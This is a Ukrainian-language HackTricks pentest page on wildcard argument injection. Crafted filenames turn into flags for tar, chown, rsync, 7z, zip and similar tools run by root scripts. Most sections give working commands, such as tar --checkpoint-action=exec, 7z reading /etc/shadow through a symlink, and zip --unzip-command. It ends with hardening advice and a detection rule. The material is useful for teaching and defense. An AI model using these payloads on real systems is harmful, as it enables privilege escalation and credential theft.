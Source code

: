 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (також відомий як *glob*) **ін'єкція аргументів** відбувається, коли привілейований скрипт виконує Unix-бінарний файл, такий як `tar`, `chown`, `rsync`, `zip`, `7z`, … з неквотованим шаблоном, таким як `*`.
> Оскільки оболонка розширює шаблон **перед** виконанням бінарного файлу, зловмисник, який може створювати файли в робочому каталозі, може створити імена файлів, які починаються з `-`, щоб вони інтерпретувалися як **опції замість даних**, ефективно контрабандуючи довільні прапори або навіть команди.
> Ця сторінка збирає найкорисніші примітиви, нещодавні дослідження та сучасні виявлення на 2023-2025 роки.

## chown / chmod

Ви можете **скопіювати власника/групу або біти дозволів довільного файлу**, зловживаючи прапором `--reference`:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Коли root пізніше виконує щось на зразок:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` інжектується, що призводить до того, що *всі* відповідні файли успадковують власність/дозволи від `/root/secret``file`.

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (комбінована атака).
Дивіться також класичну статтю DefenseCode для деталей.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Виконуйте довільні команди, зловживаючи функцією **checkpoint**:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Якщо root виконує, наприклад, `tar -czf /root/backup.tgz *`, `shell.sh` виконується від імені root.

### bsdtar / macOS 14+

За замовчуванням `tar` на останніх версіях macOS (на базі `libarchive`) *не* реалізує `--checkpoint`, але ви все ще можете досягти виконання коду за допомогою прапора **--use-compress-program**, який дозволяє вам вказати зовнішній компресор.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Коли привілейований скрипт виконує `tar -cf backup.tar *`, `/bin/sh` буде запущено.

---

## rsync

`rsync` дозволяє вам переоприділити віддалену оболонку або навіть віддалений двійковий файл за допомогою параметрів командного рядка, які починаються з `-e` або `--rsync-path`:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Якщо root пізніше архівує каталог за допомогою `rsync -az * backup:/srv/`, інжектований прапор запускає вашу оболонку на віддаленій стороні.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` режим).

---

## 7-Zip / 7z / 7za

Навіть коли привілейований скрипт *обережно* додає до шаблону символи `--` (щоб зупинити парсинг опцій), формат 7-Zip підтримує **файли списків файлів**, додаючи до імені файлу `@`. Поєднання цього з символічним посиланням дозволяє вам *екстрагувати довільні файли*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Якщо root виконує щось на зразок:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip спробує прочитати `root.txt` (→ `/etc/shadow`) як список файлів і вийде, **друкуючи вміст у stderr**.

---

## zip

`zip` підтримує прапорець `--unzip-command`, який передається *дослівно* до системної оболонки, коли архів буде перевірено:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Впровадьте прапор через спеціально підготовлену назву файлу та чекайте, поки привілейований скрипт резервного копіювання викличе `zip -T` (тест архіву) на отриманому файлі.

---

## Додаткові двійкові файли, вразливі до ін'єкції диких символів (швидкий список 2023-2025)

Наступні команди були зловживані в сучасних CTF та реальних середовищах. Пейлоад завжди створюється як *назва файлу* всередині записуваного каталогу, який пізніше буде оброблений з диким символом:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → довільний `@file` | Читати вміст файлу |
| `flock` | `-c <cmd>` | Виконати команду |
| `git`   | `-c core.sshCommand=<cmd>` | Виконання команди через git по SSH |
| `scp`   | `-S <cmd>` | Запустити довільну програму замість ssh |

Ці примітиви менш поширені, ніж класичні *tar/rsync/zip*, але їх варто перевірити під час полювання.

---

## Виявлення та зміцнення

1. **Вимкніть оболонкове розширення** в критичних скриптах: `set -f` (`set -o noglob`) запобігає розширенню диких символів.
2. **Цитуйте або екрануйте** аргументи: `tar -czf "$dst" -- *` *небезпечно* — надавайте перевагу `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Явні шляхи**: Використовуйте `/var/www/html/*.log` замість `*`, щоб зловмисники не могли створити сусідні файли, які починаються з `-`.
4. **Найменші привілеї**: Запускайте резервні/обслуговуючі завдання як обліковий запис служби без привілеїв замість root, коли це можливо.
5. **Моніторинг**: Попередньо створене правило Elastic *Potential Shell via Wildcard Injection* шукає `tar --checkpoint=*`, `rsync -e*` або `zip --unzip-command`, за яким негайно слідує дочірній процес оболонки. Запит EQL можна адаптувати для інших EDR.

---

## Посилання

* Elastic Security – Правило виявлення потенційної оболонки через ін'єкцію диких символів (остання оновлення 2025)
* Rutger Flohil – “macOS — Ін'єкція диких символів tar” (18 грудня 2024)

{{#include ../../banners/hacktricks-training.md}}
